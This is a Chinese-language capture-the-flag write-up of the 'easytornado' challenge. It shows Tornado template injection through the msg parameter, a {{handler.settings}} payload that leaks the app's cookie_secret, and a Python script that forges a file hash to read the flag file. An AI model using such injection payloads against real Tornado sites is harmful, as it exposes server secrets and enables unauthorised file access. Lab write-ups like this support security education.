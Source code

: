 ## D5 T1 easytornado

利用Tornado框架写的

猜是模板注入

访问hint.txt

提示flag in /fllllllllllllag

访问发现报错

但是很明显这个msg参数是有问题的

```text
payload=/error?msg={{3}}
```

返回一个3

但是试了加法乘法都不行

查一查Tornado的模板注入

这时候就要学会阅读源码

hint里不是让我们去找cookie_secret吗

在Tornado的auth.py

从第360行起有

```python
        request_cookie = handler.get_cookie("_oauth_request_token")
        if not request_cookie:
            raise AuthError("Missing OAuth request token cookie")
        handler.clear_cookie("_oauth_request_token")
        cookie_key, cookie_secret = [
            base64.b64decode(escape.utf8(i)) for i in request_cookie.split("|")
        ]
        if cookie_key != request_key:
            raise AuthError("Request token does not match cookie")
        token = dict(
            key=cookie_key, secret=cookie_secret
        )  # type: Dict[str, Union[str, bytes]]
```

关键在这个handler

查一下handler的属性，发现了settings

```python
    def _oauth_consumer_token(self) -> Dict[str, Any]:
        handler = cast(RequestHandler, self)
        handler.require_setting("twitter_consumer_key", "Twitter OAuth")
        handler.require_setting("twitter_consumer_secret", "Twitter OAuth")
        return dict(
            key=handler.settings["twitter_consumer_key"],
            secret=handler.settings["twitter_consumer_secret"],
        )
```

利用模板注入读一下handler.settings试试

```text
http://111.198.29.45:56392/error?msg={{handler.settings}}
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '20a6dd59-a17c-48bb-8ab9-e265a9391413'}
```

果然返回了cookie_secret

猜测filehash值就是hint里的

md5(cookie_secret+md5(filename))

跑一下脚本得到payload

```python
#coding=utf-8
import hashlib

def md5(str):
    md5 = hashlib.md5()
    md5.update(str.encode())
    return md5.hexdigest()
cookie_secret = '20a6dd59-a17c-48bb-8ab9-e265a9391413'
filename = '/fllllllllllllag'

print md5(cookie_secret+md5(filename))
```